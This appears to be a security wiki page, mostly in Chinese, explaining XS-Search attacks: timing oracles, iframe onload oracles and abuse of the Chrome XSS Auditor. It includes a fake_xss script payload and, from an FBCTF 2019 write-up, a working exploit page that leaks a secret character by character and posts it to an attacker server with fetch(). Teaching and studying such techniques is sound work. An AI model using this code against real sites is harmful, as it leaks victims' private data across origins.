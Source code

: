 # XS-Search（跨站搜索攻击）

**The best resource to learn XS-Search is** [**https://xsleaks.dev/**](https://xsleaks.dev)

## 基于时间的跨站搜索攻击

基于时间的跨站搜索攻击指的是，攻击者可以利用**CSRF 漏洞**使受害者访问一些信息，这些信息只能是该受害者可以访问。然后，通过检查响应请求所需的时间，判断内容是否被正确访问。

试想一种这样的情况：有个网页，各用户在该网页中只能访问属于自己的文件。但是admin用户能访问所有文件。如果你想知道以 ***flag*** 开头的文件内容，该如何做？

**seach by content** 功能中存在 **CSRF** 漏洞，您可以让 **admin  访问由自己控制的恶意 Web 服务器**，同时利用 CSRF 使受害者**搜索**以“_*flag开头的文件*_”。攻击者将创建一个**循环**，因此它将使受害者**搜索所有可能性**：_flagX_。然后，如果一个搜索比其他搜索花费了**更多时间**，你可以**假设**它是**正确**的，你可以用“_flag{X_”开始一个**新循环**直到拿到flag。

这只是**想法**，但在**现实世界**中，您需要检索内容的查询花费**多得多的时间**，而不是不返回任何内容的查询。

有关更多信息，您可以阅读：

* [https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549](https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549)
* [https://www.researchgate.net/publication/280738245\_Cross-Site\_Search\_Attacks](https://www.researchgate.net/publication/280738245\_Cross-Site\_Search\_Attacks)

## 利用 Iframe 进行跨站搜索攻击

假设您可以在 Iframe 中的页面插入秘密内容。

您可以使用 **Iframe** 让受害者搜索包含 “_**flag**_” 的文件（基于 CSRF 的前提）。在 Iframe 中，您知道 _**onload 事件**_ 将始终**至少执行一次**。然后，您可以更改 iframe 的中的 **URL**，但仅更改 URL 内的 **hash** 的 **content**。

例如:

1. **URL1**: www.attacker.com/xssearch#try1
2. **URL2**: www.attacker.om/xssearch#try2

如果第一个 URL **成功加载**，那么当更改URL 的 **hash** 部分时，**onload**事件**不会再次触发**。但是**如果**页面在**加载**时出现某种**错误**（包括但不限于, 请求超时, 域名不存在, 被chrome XSS过滤器的block模式屏蔽），那么**onload**事件将被**再次触发**。

然后，您可以**区分**一个**正确**加载的页面或访问时出现**错误**的页面。\
如果您可以在访问正确的内容时使页面错误，并在访问任何内容时使其正确加载，那么您可以循环提取所有信息而无需通过观察响应时间。

### Iframe Chrome XSS Auditor

想象一下**与 Timing 攻击方法**相同的情况，并且您还知道 **admin**正在使用 **Chrome 浏览器**（例如，Chrome-headless）**with Chrome XSS Auditor。**

然后，您可以使用 **iframes** 让受害者在循环中**搜索**包含“_**flagX**_”（beeing X **any**possible **character**）的页面，并且您还向 iframe 内的 URL 添加了一个 **fake 参数**，该参数**包含仅在检索有效内容时才会出现的 javascript 代码**。

例如，如果当您搜索内容 _**"my file"**_ 时，Web 服务器会响应一个包含此 javascript 代码的页面：

```
<script>console.log("you found someting");</script>
```

如果你发送一个如下请求:

```
www.victim.com/search?q=my+file&fake_xss=<script>console.log("you+found+something");<script>
```

**Chrome XSS Auditor** 将会阻止页面加载并提示错误.

如上所述，当从受害者服务器收到有效的响应时，你可以通过 “Chrome XSS Auditor” 获得一个错误。结合 iframe 技巧，你将可以检索文件名含有flag的文件，

For more information: [https://www.youtube.com/watch?v=HcrQy0C-hEA](https://www.youtube.com/watch?v=HcrQy0C-hEA)

### 滥用 Chrome XSS Auditor 窃取令牌

使用之前的技术（使用 Chrome XSS Auditor），您可以**窃取返回给用户的代码块**（例如令牌）。更多信息：[https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens](https://portswigger.net/blog/abusing-chromes-xss-auditor-to-窃取令牌）

请注意，您将窃取返回给用户的信息，而不是来自网络服务器的任何代码。

## Custom Detection

In the **fbcft2019** the **challenge**: **secret note keeper** was resolved exploiting a XS-Search.

You could make the **administrator** (a headlessChrome) **visit any page** and there was a **CSRF** vulnerable page that was able to **search files by content**. You also **knew** that the **flag starts** by _**fb{**_ and only the admin had access to it.

It was also important to notice that when you made a **search**, the results of the seach **appeared inside** an **iframe** (if something was found). And **none iframe appeared** if **anything** was found.

So, you could make the admin visit your exploit that will be a **loop of every possible charater** inside _fb{X_ inside an iframe. And using:

```
contentWindow.frames.length != 0
```

You could **check** how **many iframes** where created **inside your iframe**, and **if an**y, then the **character** would be **correct** and you could start extracting the next one.

This is a code example of this from: [https://sectt.github.io/writeups/FBCTF19/secret\_note\_keeper/README](https://sectt.github.io/writeups/FBCTF19/secret\_note\_keeper/README)

```
<!DOCTYPE html>
<html>

<head>
    <title>fbctf secret note keeper</title>
</head>

<body></body>
<script>
var chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^`{|}~ ';
var charLen = chars.length;
var ENDPOINT = "http://challenges.fbctf.com:8082/search?query="
var x = document.createElement('iframe');

function search(leak, charCounter) {
    var curChar = chars[charCounter];
    //Chek if the character is valid
    x.setAttribute("src", 'http://challenges.fbctf.com:8082/search?query=' + leak + curChar);
    document.body.appendChild(x);
    console.log("leak = " + leak + curChar);
    //When the page inside the iframe is loaded
    x.onload = () => {
    //Check the number of iframes inside
        if (x.contentWindow.frames.length != 0) {
        // If 1 or more, then, the character was valid
            fetch('http://myserver/leak?' + escape(leak), {
                method: "POST",
                mode: "no-cors",
                credentials: "include"
            });
            leak += curChar
        }
        search(leak, (charCounter + 1) % chars.length);
    }
}

function exploit() {
    search("fb{", 0);
}

exploit();
</script>

</html>

```



## More information

{% embed url="https://github.com/xsleaks/xsleaks" %}

[https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)
